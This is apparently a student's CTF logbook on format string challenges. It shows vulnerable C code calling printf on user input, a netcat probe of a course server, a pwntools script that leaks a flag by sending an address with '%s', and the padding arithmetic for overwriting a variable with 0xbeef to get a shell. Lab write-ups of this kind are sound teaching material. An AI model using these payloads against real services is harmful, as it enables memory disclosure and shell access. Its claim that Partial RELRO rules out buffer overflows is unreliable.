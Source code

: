 This program has a *Partial RELRO*, so we know that we won't be able to do a buffer overflow. Also, there is a *stack canary*, so there are low chances of having a stack smash. *NX* is enabled, so the stack isn't executable and we can't make a jump to a custom shellcode. There is no *PIE*.

After seeing the code, we've noticed a code segment vulnerable to format string attack:

```c
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);
```

Watching this, we know that the printf is vulnerable to format strings and even better, that we control its input.

We have also noticed that the flag is being loaded into a global variable `flag`, so, we can easily use GDB to find its address, by doing `p &flag`.

![CTF Challenge 1](/images/logbook7/00.png)

- In contrary to SEED Labs, we didn't need to calculate the offset, because we got our input imediatly:

```bash
❯ echo "ABCDE %s" | nc ctf-fsi.fe.up.pt 4004
Try to unlock the flag.
Show me what you got:You gave me this: ABCDE
Disqualified!
```

Now that we know the address of `flag`, we can build our payload:

```python
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

payload = (0x804c060).to_bytes(4, byteorder='little') + b"%s"
p.recvuntil(b"got:")
p.sendline(payload)
p.interactive()
```

## CTF - Desafio 2

This challenge is similar to the first one, but with some changes.
In this challenge, instead of just reading the value of a global variable, you have to change its value to `0xbeef` to get a shell.

In this task, we cannot write directly 48879 (beef in decimal) to the address. Firstly, we have to write the global variable's address `0x0804c034`, which was found with gdb like in the previous challenge address to the payload, as in the previous examples and then, as the address are 4 Bytes, we write 48879 - 4 = `48875 Bytes`.
